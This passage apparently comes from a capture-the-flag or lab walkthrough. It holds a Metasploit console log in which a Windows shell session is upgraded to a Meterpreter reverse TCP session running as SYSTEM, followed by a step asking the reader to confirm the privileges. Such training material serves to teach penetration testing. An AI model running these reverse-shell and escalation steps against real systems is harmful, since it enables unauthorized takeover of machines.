 ```
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.

msf5 post(multi/manage/shell_to_meterpreter) > sessions -i

Active sessions
===============

  Id  Name  Type               Information                           Connection
  --  ----  ----               -----------                           ----------
  1         shell x64/windows  Microsoft Windows [Version 6.1.7601]  10.2.13.68:4444 -> 10.10.76.210:49195 (10.10.76.210)

msf5 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
msf5 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.2.13.68:4433 
[*] Post module execution completed
msf5 post(multi/manage/shell_to_meterpreter) > 
[*] Sending stage (176195 bytes) to 10.10.76.210
s[*] Meterpreter session 2 opened (10.2.13.68:4433 -> 10.10.76.210:49203) at 2020-06-04 15:32:06 -0400
sessions

Active sessions
===============

  Id  Name  Type                     Information                           Connection
  --  ----  ----                     -----------                           ----------
  1         shell x64/windows        Microsoft Windows [Version 6.1.7601]  10.2.13.68:4444 -> 10.10.76.210:49195 (10.10.76.210)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ JON-PC          10.2.13.68:4433 -> 10.10.76.210:49203 (10.10.76.210)

msf5 post(multi/manage/shell_to_meterpreter) > 
[*] Stopping exploit/multi/handler
sessions

Active sessions
===============

  Id  Name  Type                     Information                           Connection
  --  ----  ----                     -----------                           ----------
  1         shell x64/windows        Microsoft Windows [Version 6.1.7601]  10.2.13.68:4444 -> 10.10.76.210:49195 (10.10.76.210)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ JON-PC          10.2.13.68:4433 -> 10.10.76.210:49203 (10.10.76.210)

msf5 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...

```
6. Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 
```
no answer needed

```